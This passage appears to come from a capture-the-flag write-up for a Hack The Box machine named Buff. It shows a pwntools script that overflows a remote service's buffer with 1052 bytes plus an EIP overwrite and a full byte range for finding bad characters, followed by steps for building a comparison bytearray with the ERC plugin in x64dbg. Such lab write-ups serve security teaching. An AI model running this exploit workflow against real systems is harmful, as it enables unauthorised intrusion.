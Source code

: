 

```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
    
```

before sending the bytearray I reload the program in the debugger and generate a bytearray with ERC to compare the characters.

To create a bytearray with ERC

1. go to the log tab in xdbg

![Desktop View](/img/htb/buff/log_tab.png)

2. on the command prompt at the bottom type `ERC --config setworkingdirectory C:\users\user\desktop\`

![Desktop View](/img/htb/buff/command_prompt_1.png)
